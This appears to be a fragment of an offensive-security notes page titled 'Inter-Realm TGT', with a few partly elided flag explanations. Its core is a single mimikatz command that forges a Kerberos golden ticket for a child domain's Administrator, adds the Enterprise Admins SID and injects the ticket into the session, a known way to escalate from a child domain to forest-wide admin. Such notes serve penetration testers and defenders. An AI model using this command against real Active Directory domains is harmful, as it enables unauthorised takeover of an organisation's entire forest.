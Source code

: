 # Inter-Realm TGT

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /user:Administrator /domain:<child domain> /sid:S-xxx /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
```
{% endcode %}

a. `/user:Administrator` : ...

b. ...

c. `/service:krbtgt` : specifies that this ticket is a TGT
